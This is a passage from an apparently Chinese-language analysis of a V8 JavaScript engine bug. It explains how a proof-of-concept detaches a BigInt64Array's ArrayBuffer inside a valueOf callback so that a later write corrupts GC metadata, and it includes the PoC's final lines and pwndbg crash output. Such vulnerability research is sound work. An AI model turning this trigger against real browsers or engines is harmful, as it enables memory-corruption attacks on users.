 ```
  constructor,
  evil_object
)

gc(); // trigger
```

分析上面的 POC，可以理出一条这样的漏洞触发过程：
- 首先执行 BigInt64Array.of.call ，其中 多调用了一个 call 是为了使 constructor 函数和 设置的 element 都可以操作同一个 array。
- 初始时， array 的 backing_store 存在，因此将绕过 v8 `EmitBigTypedArrayElementStore` 函数中的 ArrayBuffer **neutered** 检查，进入 **ToBigInt** 函数。
- ToBigInt 函数将会获取传入 element 的值，因此便会调用 evil_object.valueOf 函数，即调用 evil_callback JS 函数。
- 该函数将执行 v8 Runtime 函数 `%ArrayBufferNeuter`，释放 array 中 ArrayBuffer 的 backing_store。
- 完成以上操作后，v8 `EmitBigTypedArrayElementStore` 函数中的 ToBigInt 函数将返回，此时继续执行，试图将 element 写入之前保存的 backing_store 里。
- 由于该 ArrayBuffer 已经被 detached，因此这样的写入将修改该 backing_store 上的一些用于 GC 的元数据，使最后在执行 GC 时触发崩溃。
> **将值写入至 Detached ArrayBuffer** 时，因为其 heap chunk 仍然是 **allocated** 的，因此不存在 UaF。

gdb 可能的两种崩溃输出如下：

第一种

```
pwndbg&gt; r
Starting program: /usr/class/v8/v8/out/x64.debug/d8 --allow-natives-syntax --expose-gc test.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fe86accc700 (LWP 84765)]
[New Thread 0x7fe86a4cb700 (LWP 84766)]
[New Thread 0x7fe869cca700 (LWP 84767)]
[New Thread 0x7fe8694c9700 (LWP 84768)]
[New Thread 0x7fe868cc8700 (LWP 84769)]
[New Thread 0x7fe8684c7700 (LWP 84770)]
[New Thread 0x7fe867cc6700 (LWP 84771)]
callback

Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
tcache_get (tc_idx=4) at malloc.c:2951
2951      --(tcache-&gt;counts[tc_idx]);
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────
 RAX  0x5606a95b6030 ◂— 0x10000
 RBX  0x4
 RCX  0x5606a95b6018 ◂— 0x10001
 RDX  0x0
 RDI  0x58
 RSI  0x7ffe89539b58 —▸ 0x5606a95d2ef0 —▸ 0x7ffe8953ba10 ◂— 0x5606a95d2ef0
 R8   0xdeadbeef
 R9   0x7ffe89539b6c ◂— 0x89539df800000002
 R10  0x58
 R11  0x58
 R12  0xffffffffffffffa8
 R13  0x5606a95d2fb8 —▸ 0x283c80e82ba9 ◂— 0x283c80e822
 R14  0x5
 R15  0x7ffe8953ab08 —▸ 0x354172782e39 ◂— 0xb1000005ceeae0ae
 RBP  0x58
 RSP  0x7ffe89539990 —▸ 0x7fe86cf8d220 ◂— push   rbp
 RIP  0x7fe86b7227be (malloc+286) ◂— mov    rsi, qword ptr [r8]
───────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────
 ► 0x7fe86b7227be &lt;malloc+286&gt;    mov    rsi, qword ptr [r8]
   0x7fe86b7227c1 &lt;malloc+289&gt;    mov    qword ptr [rax + 0x80], rsi
   0x7fe86b7227c8 &lt;malloc+296&gt;    mov    word ptr [rcx], dx
   0x7fe86b7227cb &lt;malloc+299&gt;    mov    qword ptr [r8 + 8], 0
```
